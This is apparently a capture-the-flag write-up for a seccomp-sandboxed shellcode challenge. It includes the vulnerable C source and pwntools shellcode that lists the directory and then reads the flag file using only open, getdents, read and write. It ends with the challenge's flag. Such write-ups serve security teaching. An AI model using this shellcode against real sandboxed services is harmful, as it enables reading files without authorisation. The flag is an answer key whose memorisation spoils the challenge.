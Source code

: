 # $hellc0de-0x3

## Write-up

- Source code :  

```c
#include <stdio.h>
#include <stdlib.h>
#include <seccomp.h>
#include <unistd.h>

#define CODE_SIZE 200

void disable_buffering(void);
void sandbox(void);

char code[CODE_SIZE] = { '\0' };

int main(int argc, char *argv[]) {
  disable_buffering();

  printf("Note: Flag filename is... You have to figure it out!\n");
  printf("Enter your shellcode : ");

  read(0, code, CODE_SIZE);

  sandbox();

  (*(void(*)()) code)();

  return EXIT_SUCCESS;
}

void disable_buffering(void) {
  setbuf(stdin, NULL);
  setbuf(stdout, NULL);
  setbuf(stderr, NULL);
}

void sandbox(void) {
  scmp_filter_ctx ctx = seccomp_init(SCMP_ACT_KILL);
  if (ctx == NULL) {
    fprintf(stderr, "seccomp error\n");
    exit(EXIT_FAILURE);
  }

  seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 0);
  seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0);
  seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 0);
  seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(getdents), 0);
  seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);
  seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);
  if (seccomp_load(ctx) < 0) {
    seccomp_release(ctx);
    exit(EXIT_FAILURE);
  }
  seccomp_release(ctx);
}
```

- A seccomp filter is used and in this case it's a whitelist filter, i.e: only a few syscalls are allowed : `open`, `read`, `write`, `getdents`, `exit` and `exit_group`
- Since we don't know what the flag filename is, we need to use `getdents` syscall to get entries in current directory :  
  - `open(".", O_DIRECTORY)` : open current directory, file descriptor is returned in `RAX` register
  - `getdents(RAX, rwbuf, 0x80)` : read directory entries into a controlled read/write buffer address (rwbuf) of size 0x80 bytes
  - `write(1, rwbuf, 0x80)` : print 0x80 bytes of rwbuf to stdout
- We can then decode the printed output with pwntools' helper function `dirents` :  

```python
# R/W address
RWBUF = 0x601800
COUNT = 0x80

shellcode = asm(
    shellcraft.open(".", constants.O_DIRECTORY) +
    shellcraft.getdents('rax', RWBUF, COUNT) +
    shellcraft.write(1, RWBUF, COUNT)
)

io.send(shellcode)
buf = io.recv(COUNT)
entries = dirents(buf)
log.info(f"entries: {entries}")
```

- After that we conclude the flag filename is `flag-44da17c5.txt`, we can now use again the combination of `open`, `read` and `write` to read the flag, like this :  
  - `open("flag-44da17c5.txt", 0)` : open flag file, file descriptor is returned in `RAX` register
  - `read(RAX, rwbuf, 0x100)` : read 0x100 bytes from open file descriptor to a controlled read/write buffer address (rwbuf)
  - `write(1, rwbuf, 0x100)` : print 0x100 bytes from rwbuf to stdout
- We can use the `shellcraft` module from `pwntools` to generate the shellcode :  

```python
# R/W address
RWBUF = 0x601800
READSIZE = 0x100
shellcode = asm(
    shellcraft.open("flag-44da17c5.txt", 0) +
    shellcraft.read("rax", RWBUF, READSIZE) +
    shellcraft.write(1, RWBUF, READSIZE)
)
```

- Full automated exploit with pwntools [here](solve.py)

## Flag

`shellmates{Ze_MaSt3r_0f_secc0MP_f1lterZzZ}`
